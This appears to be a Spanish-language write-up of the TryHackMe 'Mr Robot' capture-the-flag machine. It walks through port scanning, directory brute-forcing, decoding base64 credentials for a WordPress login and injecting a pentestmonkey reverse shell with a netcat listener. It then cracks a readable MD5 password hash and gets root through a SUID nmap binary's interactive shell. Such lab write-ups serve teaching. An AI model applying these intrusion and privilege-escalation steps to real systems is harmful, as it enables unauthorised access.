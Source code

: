 ```yaml
---
title: "Mr Robot CTF::__. Tryhackme 🤖"
date: 2023-08-30T02:01:58+05:30
description: "Esta es una máquina virtual destinada para usuarios principiantes/intermedios. Hay 3 llaves ocultas ubicadas en la máquina, ¿puedes encontrarlas? "
tags: [tryhackme, medium, suid]
---
```



## Enumeración



```shell
$ nmap -p- -Pn -n --min-rate 2000 -vvv 10.10.9.68

Host is up, received user-set (0.34s latency).
Scanned at 2023-08-30 10:17:29 -05 for 67s
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE REASON
22/tcp  closed ssh     reset ttl 61
80/tcp  open   http    syn-ack ttl 61
443/tcp open   https   syn-ack ttl 61
```



Vemos que hay un servidor web ejecutándose. Entonces, mientras lo exploramos, ejecutemos un análisis Dirsearch para encontrar archivos y directorios ocultos. 


```bash
$ dirsearch -u http://10.10.9.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php,html,cgi,bin,txt

```

* encontramos varios directorios entre ellos uno llamado `/robots` donde encontramos cosas

```
User-agent: *
fsocity.dic
key-1-of-3.txt

```  

abrimos `key-1-of-3.txt` y encontramos la primera flag 🤙

--------------------------------------------------------------

seguimos buscando directorios y encontramos uno `/license` al abrirlo encontramos un code en base64 
`ZWxsaW90OkVSMjgtMDY1Mgo=` lo desciframos

```
echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d

xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

parecen ser unas credenciales y ya que la enumeración nos dio directorios de wordpress `/wp-login` probamos si sin las correctas. Y lo son !!!!


{{< figure src="https://i.imgur.com/9pqm4jo.png">}}

## Reverse shell

acá ya es solo inyectar un script malicioso para obtener la shell, en este caso usamos la ayuda de `pentestmonkey` y nos ponemos en escucha por el puerto: 1234

```shell
nc -nvlp 1234
```

y listo tenemos una shell!!!


{{< figure src="https://i.imgur.com/5MBkxbs.png">}}

## Escalada de privilegios

entramos a la carpeta `/home` y encontramos un usuario llamado `robot` miramos su contenido


{{< figure src="https://i.imgur.com/dzrbBFe.png">}}

* como vemos tenemos permisos de lectura en el archivo `password.raw-md5` lo revisamos

```
daemon@linux:/home/robot$ cat pass
robot:c3fcd3d76192e4007dfb496cca67e13b
```

usamos la web [Crackstation](https://crackstation.net/) para descifrar la contraseña

```
daemon@linux:/home/robot$ su -l robot
Password: 
$ ls
key-2-of-3.txt	password.raw-md5
$ whoami 
robot
```
## Acceso root

buscamos archivos `SUID` 

```
robot@linux:/$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
daemon@linux:/$ 


```

vemos el bin de `nmap` y damos un vistaso a [Gtobins](https://gtfobins.github.io/)

```
robot@linux:/$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root

```

¡Tenemos root! Ahora sólo nos falta conseguir el último 🔑:

```
cd /root
ls
firstboot_done	key-3-of-3.txt

```

Y listo pues. 🤠